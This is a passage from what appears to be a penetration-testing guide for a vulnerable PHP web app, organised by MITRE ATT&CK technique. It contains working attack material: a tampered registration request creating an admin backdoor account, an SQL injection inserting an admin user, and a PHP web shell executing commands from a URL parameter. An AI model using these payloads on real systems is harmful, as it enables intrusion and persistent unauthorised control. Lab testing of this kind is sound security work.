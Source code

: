 **Attack Vector**:
- Upload reverse shell
- Upload web shell
- Upload malicious script

**Testing Steps**:
1. Create malicious PHP reverse shell
2. Upload via `upload.php`
3. Access uploaded file to trigger execution

---

### 3. Persistence

#### T1136.001: Create Account - Local Account

**Description**: Create local account to maintain access.

**Vulnerable Component**: `register.php` with role parameter tampering

**Attack Vector**:
```http
POST /register.php
username=backdoor&password=hidden123&email=backdoor@evil.com&role=admin
```

**Testing Steps**:
1. Navigate to registration page
2. Intercept request with Burp Suite
3. Add `role=admin` parameter
4. Create admin account for persistence

**SQL Injection Method**:
```sql
'; INSERT INTO users (username, password, role) VALUES ('backdoor', 'hidden', 'admin') -- 
```

---

#### T1505.003: Server Software Component - Web Shell

**Description**: Install web shell for persistent access.

**Vulnerable Component**: File upload with PHP execution

**Attack Vector**:
Upload `backdoor.php`:
```php
<?php
if(md5($_GET['key']) == '5f4dcc3b5aa765d61d8327deb882cf99') {
    system($_GET['cmd']);
}
?>
```

**Testing Steps**:
1. Upload web shell with authentication
2. Access: `uploads/backdoor.php?key=password&cmd=id`
3. Maintains access even if primary account is removed

---